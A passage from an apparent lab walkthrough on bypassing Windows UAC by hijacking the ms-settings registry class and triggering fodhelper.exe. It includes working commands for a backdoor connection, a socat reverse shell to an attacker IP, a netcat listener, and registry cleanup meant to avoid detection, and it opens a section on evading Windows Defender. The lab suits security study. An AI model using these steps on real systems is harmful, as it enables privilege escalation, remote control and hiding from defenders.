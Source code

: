 To connect to the backdoor, you can use the following command:

`nc 10.10.37.186 9999`

Once connected, we check if our user is part of the Administrators group and that it is running with a medium integrity token:

`net user attacker | find "Local Group"`

`whoami /groups | find "Label"`

We set the required registry values to associate the ms-settings class to a reverse shell. For your convenience, a copy of socat can be found on `c:\tools\socat\`. You can use the following commands to set the required registry keys from a standard command line:

`C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command`

`C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"`

`C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f`

`C:\> reg add %REG_KEY% /d %CMD% /f`

Notice how we need to create an empty value called DelegateExecute for the class association to take effect. If this registry value is not present, the operating system will ignore the command and use the system-wide class association instead.

And then proceed to execute fodhelper.exe, which in turn will trigger the execution of our reverse shell:

### 18.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

The received shell runs with high integrity, indicating we have successfully bypassed UAC.

## Clearing our tracks 

As a result of executing this exploit, some artefacts were created on the target system in the form of registry keys. To avoid detection, we need to clean up after ourselves with the following command:

`reg delete HKCU\Software\Classes\ms-settings\ /f`

-------------------------------------------------------

##  UAC: Improving the Fodhelper Exploit to Bypass Windows Defender

For simplicity, the machine we are targeting has Windows Defender disabled. But what would happen if it was enabled?

modify the exploit to run fodhelper.exe immediately after setting the registry value. If the command runs quick enough, it will just work (be sure to replace your IP address where needed):

`nc -lvp 4444`
